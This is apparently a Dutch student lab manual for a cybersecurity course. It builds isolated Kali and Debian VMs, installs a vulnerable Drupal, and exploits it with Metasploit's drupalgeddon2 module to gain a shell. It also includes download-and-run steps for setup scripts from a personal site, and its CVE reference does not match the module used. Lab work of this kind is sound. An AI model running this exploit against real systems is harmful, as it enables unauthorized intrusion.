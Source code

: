 # CSV-NPE-2223

Cybersecurity &amp; Virtualisation - NPE Opdracht 2022-2023

# Deployment manual

## Table of Contents

- [1. VM installaties](#1-vm-installaties)
- [2. Drupal installatie](#2-drupal-installatie)
- [3. Metesploit](#3-metesploit)
- [4. Demo](#4-demo)

## 1. VM installaties

### Informatie

- De VM's zijn geconfigureerd met een host-only netwerk adapter
- De installatie vereist een internet connectie

### Setup op host machine

- Download volgende vdi-bestanden van osboxes.org:

  - [Kali Linux 2022.3](https://sourceforge.net/projects/osboxes/files/v/vb/25-Kl-l-x/2022.3/64bit.7z/download)
  - [Debian 11 - Desktop](https://sourceforge.net/projects/osboxes/files/v/vb/14-D-b/11/Workstation/64bit.7z/download)

- Unzip de vdi-bestanden rechtstreeks in de download folder de huidige gebruiker
- Check of de vdi-bestanden de volgende namen hebben:

  - Kali Linux 2022.3 (64bit).vdi
  - Debian 11 (64bit).vdi

- Voer de volgende commando's uit in powershell op de host machine:

  ```powershell
    curl https://jobbe.be/csv-npe-2223/vm-install.sh -out vm-install.ps1
    ./vm-install.ps1
  ```

## 2. Drupal installatie

### Drupal 7.x en 8.x - - RESTful Web Services unserialize() Remote Command Execution [Exploit](https://nvd.nist.gov/vuln/detail/CVE-2019-6340)

### Informatie

- De exploit is beschikbaar op [exploit-db](https://www.exploit-db.com/exploits/46510)
- De exploit veroorzaakt een unserialize() fout in de `Drupal 7/8 RESTful Web Services` module, waardoor we een remote command execution kunnen uitvoeren
- Deze manual gebruikt de `drupal_drupalgeddon2` [module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md) van metasploit om de exploit uit te voeren.

### Setup op Debian VM

- Log in op de Debian VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Installeer de mysql repository en selecteer in de prompt `debian buster` en en `mysql-5.7` als versie van mysql:

  ```bash
    wget https://dev.mysql.com/get/mysql-apt-config_0.8.18-1_all.deb
    sudo dpkg -i mysql-apt-config_0.8.18-1_all.deb
  ```

- Download en run het installatie script:

  ```bash
    wget https://jobbe.be/csv-npe-2223/drupal-install.sh
    chmod +x drupal-install.sh
    sudo ./drupal-install.sh
  ```

- Na de installatie is drupal beschikbaar op `http://localhost/index.php`
- Configureer Drupal met de volgende gegevens:

  - Database name: `drupal`
  - Database username: `drupal`
  - Database password: `password`
  - Site name: `drupal`
  - Site email address: `drupal@localhost.be`
  - Username: `drupal`
  - Password: `drupal`
  - Default country: `Belgium`
  - Default timezone: `Europe/Brussels`

- Verwijder de standaard web pagina in /var/www/html:

  ```bash
    sudo rm -rf /var/www/CybersecurityNPE2023.local/index.html
  ```

- Activeer de volgende modules onderaan in de `Modules` pagina van Drupal:

  - `Entity API`
  - `RESTful Web Services`

- Deactiveer de enp0s3 netwerk adapter en activeer de enp0s8 netwerk adapter in de instellingen van de Debian VM

- Check het ip-adres van de Debian VM met het volgende commando:

  ```bash
    ip a
  ```

## 3. Metesploit

### Exploit op Kali VM

- Log in op de Kali VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Deactiveer de enp0s3 netwerk adapter en activeer de enp0s8 netwerk adapter in de instellingen van de Kali VMs

- Open een terminal en voer volgende commando's uit:

  ```bash
    sudo msfdb init
    sudo msfconsole
  ```

- Voer volgende commando's uit in de metasploit console om de host te in te stellen (vervang xxx.xxx.xxx.xxx met het ip-adres van de Debian VM):

  ```bash
    use exploit/unix/webapp/drupal_drupalgeddon2
    set RHOSTS xxx.xxx.xxx.xxx
    set VERBOSE true
    check
  ```

- Voer volgende commando's uit in de metasploit console om de exploit uit te voeren:

  ```bash
    run
  ```

- Als de exploit succesvol is uitgevoerd, kan je een shell openen met volgende commando's:

  ```bash
    whoami
    ls
  ```

### 4. Demo

https://hogent.cloud.panopto.eu/Panopto/Pages/Viewer.aspx?id=294bbaaf-9e7a-4abc-87e6-b0030132dae7
